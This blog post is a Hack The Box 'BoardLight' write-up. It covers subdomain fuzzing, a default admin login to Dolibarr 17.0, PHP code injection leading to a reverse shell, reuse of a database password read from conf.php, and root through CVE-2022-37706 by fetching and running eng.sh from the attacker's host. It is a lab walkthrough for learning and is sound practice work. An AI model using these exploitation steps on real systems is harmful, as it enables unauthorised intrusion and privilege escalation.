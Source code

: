 

---
title:  "HTB BoardLight Writeup"
date:   2024-05-26 00:30:00 
categories: HTB Machine
tags: Default_user_pass PHP Code Injection Binary_exploitation CVE
---


## Shell as www-data


### Enumeration

```
─# nmap -sC -sV -p- -T4 --min-rate=9326 --vv board.htb           
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-26 10:51 EDT
NSE: Loaded 156 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 10:51
Completed NSE at 10:51, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 10:51
Completed NSE at 10:51, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 10:51
Completed NSE at 10:51, 0.00s elapsed
Initiating Ping Scan at 10:51
Scanning board.htb (10.10.11.11) [4 ports]
Completed Ping Scan at 10:51, 0.28s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 10:51
Scanning board.htb (10.10.11.11) [65535 ports]
Discovered open port 22/tcp on 10.10.11.11
Discovered open port 80/tcp on 10.10.11.11
```

only port 22,80 are open so that's nothing maybe i'll try enum using subdo enum because on board.htb only landing page so i think the vulnerability on subdomain board.htb



```
ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt -u "http://board.htb" -H "HOST: FUZZ.board.htb" -c -fs 15949

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://board.htb
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt
 :: Header           : Host: FUZZ.board.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 15949
________________________________________________

crm                     [Status: 200, Size: 6360, Words: 397, Lines: 150, Duration: 268ms]
web3452                 [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 329ms]
web4000                 [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 334ms]
wishlist                [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 332ms]
```

Now add `crm.board.htb` in /etc/hosts


### Identify Vulnerability


![](https://0xwhoami35.github.io/images/Boardlight/2024-05-26-23-08-36.png)

The Version of Dolibar is 17.0 so let we research about this vendor to see the vendor vulnerable or not

![](https://0xwhoami35.github.io/images/Boardlight/2024-05-26-23-10-03.png)


 In Dolibarr 17.0.0 with the CMS Website plugin (core) enabled, an authenticated attacker can obtain remote command execution via php code injection bypassing the application restrictions.

 The CMS are vulnerable PHP Code injection but it's authenticated 

 ```
 The default username and password for Dolibarr, a popular open-source ERP and CRM software, often depend on how it was installed and set up. However, the typical default credentials are:

    Username: admin
    Password: admin
```

as you can see here the user pass default is admin .

After i put that's credentials , i successfully login to dashboard

### PHP Code Injection
Now click `Website`and > click `+` > and create your site > Import website template > Click Load anything template it's ok > Edit page
> and put your php revshell code


![](https://0xwhoami35.github.io/images/Boardlight/2024-05-26-23-56-38.png)


And click saved


```
└─# nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.10.14.110] from (UNKNOWN) [10.10.11.11] 46260
Linux boardlight 5.15.0-107-generic #117~20.04.1-Ubuntu SMP Tue Apr 30 10:35:57 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
 08:55:52 up 40 min,  4 users,  load average: 0.62, 0.46, 0.52
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: cannot set terminal process group (856): Inappropriate ioctl for device
bash: no job control in this shell
www-data@boardlight:/$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```



## Shell as larissa

After i research on google about "Where the location Dolibarr default config" i got this page

[Dolibar Config Location](https://wiki.dolibarr.org/index.php?title=Configuration_file)

### Login larissa user using mysql config dolibarr
```
www-data@boardlight:~/html/crm.board.htb/htdocs/conf$ cat conf.php
cat conf.php
<?php
//
// File generated by Dolibarr installer 17.0.0 on May 13, 2024
//
// Take a look at conf.php.example file for an example of conf.php file
// and explanations for all possibles parameters.
//
$dolibarr_main_url_root='http://crm.board.htb';
$dolibarr_main_document_root='/var/www/html/crm.board.htb/htdocs';
$dolibarr_main_url_root_alt='/custom';
$dolibarr_main_document_root_alt='/var/www/html/crm.board.htb/htdocs/custom';
$dolibarr_main_data_root='/var/www/html/crm.board.htb/documents';
$dolibarr_main_db_host='localhost';
$dolibarr_main_db_port='3306';
$dolibarr_main_db_name='dolibarr';
$dolibarr_main_db_prefix='llx_';
$dolibarr_main_db_user='dolibarrowner';
$dolibarr_main_db_pass='serverfun2$2023!!';
```

the path is `conf/conf.php`

```
www-data@boardlight:~/html/crm.board.htb/htdocs/conf$ su larissa
su larissa
Password: serverfun2$2023!!
id
uid=1000(larissa) gid=1000(larissa) groups=1000(larissa),4(adm)
```


## Shell as root

```
find / -perm -04000 -ls 2>/dev/null 
     2491     16 -rwsr-xr-x   1 root     root        14488 Jul  8  2019 /usr/lib/eject/dmcrypt-get-device
      608     16 -rwsr-sr-x   1 root     root        14488 Apr  8 18:36 /usr/lib/xorg/Xorg.wrap
    17633     28 -rwsr-xr-x   1 root     root        26944 Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys
    17628     16 -rwsr-xr-x   1 root     root        14648 Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_ckpasswd
    17627     16 -rwsr-xr-x   1 root     root        14648 Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_backlight
    17388     16 -rwsr-xr-x   1 root     root        14648 Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/modules/cpufreq/linux-gnu-x86_64-0.23.1/freqset
     2368     52 -rwsr-xr--   1 root     messagebus    51344 Oct 25  2022 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
     5278    468 -rwsr-xr-x   1 root     root         477672 Jan  2 09:13 /usr/lib/openssh/ssh-keysign
    10039    388 -rwsr-xr--   1 root     dip          395144 Jul 23  2020 /usr/sbin/pppd
```

Do you see what i see?? yupp that's enlightenment binary , i had saw about this binary vulnerability a few month ago and also have tried to download this binary in my ubuntu and trying to priv esc and it's working
### CVE-2022-37706-LPE-exploit
[CVE-2022-37706-LPE-exploit](https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit)


```
wget http://10.10.14.110:8000/eng.sh
--2024-05-26 08:47:03--  http://10.10.14.110:8000/eng.sh
Connecting to 10.10.14.110:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 707 [text/x-sh]
Saving to: ‘eng.sh’

     0K                                                       100% 41.3M=0s

2024-05-26 08:47:04 (41.3 MB/s) - ‘eng.sh’ saved [707/707]

bash eng.sh
CVE-2022-37706
[*] Trying to find the vulnerable SUID file...
[*] This may take few seconds...
[+] Vulnerable SUID binary found!
[+] Trying to pop a root shell!
[+] Enjoy the root shell :)
mount: /dev/../tmp/: can't find in /etc/fstab.
id
uid=0(root) gid=0(root) groups=0(root),4(adm),1000(larissa)
```
